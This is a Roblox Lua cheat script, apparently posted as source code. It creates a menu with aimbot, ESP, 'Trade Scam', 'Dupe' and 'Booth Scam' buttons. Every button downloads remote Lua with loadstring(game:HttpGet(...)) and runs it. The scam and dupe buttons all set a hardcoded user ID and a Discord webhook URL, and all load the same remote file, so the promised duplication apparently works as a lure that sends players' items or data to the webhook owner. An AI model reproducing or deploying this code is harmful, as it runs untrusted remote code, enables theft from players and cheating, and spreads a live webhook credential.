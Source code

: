 local kavoUi = loadstring(game:HttpGet("https://pastebin.com/raw/vff1bQ9F"))()

local window = kavoUi.CreateLib("ï¼©ï½Žï½†ï½‰ï½Žï½‰ï½”ï½… ï¼¨ï½•ï½‚ â˜˜","Serpent")

---Tabs

local Tab1 = window:NewTab("💳Credits")

local Tab1Section = Tab1:NewSection("script by Chaw So🔥")

local Tab2 = window:NewTab("🔫Aimbot")

local Tab2Section = Tab2:NewSection("Universal Aimbot")

local Tab3 = window:NewTab("🔥Esp")

local Tab3Section = Tab3:NewSection("Sup is word")

local Tab4 = window:NewTab("🎨Starving Artist")

local Tab4Section = Tab4:NewSection("Starving Artist")

local Tab5 = window:NewTab("🔥Trade Scam")

local Tab5Section = Tab5:NewSection("Premium Version")

local Tab6 = window:NewTab("😺Dupe")

local Tab6Section = Tab6:NewSection("Duplicate Pet or Gem")

local Tab7 = window:NewTab("🔥Booth Scam")

local Tab7Section = Tab7:NewSection("Scam someone's Booth")

local Tab7Section = Tab7:NewSection("Click The Pet In The Bank 10 Times Then Execute")

---Buttons

Tab2Section:NewButton("Fixing","...",function()

end)

Tab3Section:NewButton("Esp","...",function()

_G.FriendColor = Color3.fromRGB(0, 0, 255)

_G.EnemyColor = Color3.fromRGB(255, 0, 0)

_G.UseTeamColor = false

--------------------------------------------------------------------

loadstring(game:HttpGet("https://raw.githubusercontent.com/zeroisswag/universal-esp/main/esp.lua"))()

end)

Tab4Section:NewButton("Art Copy","...",function()

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jeux45/Starving-Artist-script/main/Script", true))()

end)

Tab5Section:NewButton("On (click to turn on trade scam)","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1059979711779962980/J7pWoQEOHAlBRiJo0DjGn8OJW_keTNM7CModCsKtIp-siKAtyfw29UpwYDPK4IF0Vrqx"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab5Section:NewButton("Off (click to turn off trade scam)","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1059979711779962980/J7pWoQEOHAlBRiJo0DjGn8OJW_keTNM7CModCsKtIp-siKAtyfw29UpwYDPK4IF0Vrqx"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab6Section:NewButton("Click to dupe gem","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1059979711779962980/J7pWoQEOHAlBRiJo0DjGn8OJW_keTNM7CModCsKtIp-siKAtyfw29UpwYDPK4IF0Vrqx"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab6Section:NewButton("Click to dupe equipped pets","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1059979711779962980/J7pWoQEOHAlBRiJo0DjGn8OJW_keTNM7CModCsKtIp-siKAtyfw29UpwYDPK4IF0Vrqx"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)

Tab7Section:NewButton("Click to scam booth","...",function()

_G.UserID = 2292898978

_G.WebHook = "https://discord.com/api/webhooks/1059979711779962980/J7pWoQEOHAlBRiJo0DjGn8OJW_keTNM7CModCsKtIp-siKAtyfw29UpwYDPK4IF0Vrqx"

loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()

end)
